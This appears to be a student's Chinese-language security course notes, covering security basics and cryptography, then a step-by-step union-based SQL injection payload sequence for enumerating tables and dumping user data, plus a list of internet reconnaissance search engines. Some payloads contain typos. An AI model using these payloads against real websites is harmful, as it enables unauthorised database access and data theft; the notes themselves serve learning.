 # Day1

## 网络安全基础
形式很严峻，我们要重视

### 操作系统安全
Linux/Windows：密码、进程、日志

### 协议与网络架构
ISO/OSI七层模型结构

### 数据库安全

### 密码学基础
1. 加解密：
对称密码算法: DES, IDEA, AES
非对称密码算法（公钥、私钥）: RSA, ECC, ElGamal

2. 哈希运算（完整性）：
MD5(128位)、SHA(160位)

# Day2

## sql 注入
- 1' union select 1,2,3 #
- Id=1’
- Id=1’ and 1=1 --+  --#
- Id=1’ ordey by 2 --+
- Id=-1’ union select 1,2,3 --+
- Id=-1’union select 1,database(),username() --+
查表
- Id=1’ union select 1,2,group_concat(table_name) from information_schema.tabless where table_schema=’&&&’ 
查列
- Id=1’ union select 1,2,group_concat(column_name) from information_schema.columns where table_name=’users’ 
出数据
- Id=1’ union select 1,2,group_concat(column_name,比如username\password) from  users  

## 信息收集
https://search.censys.io/
https://www.virustotal.com/gui/home/search
https://fofa.info/
https://hunter.qianxin.com/
https://www.shodan.io/
https://www.zoomeye.org/
https://detail.aiuys.com/
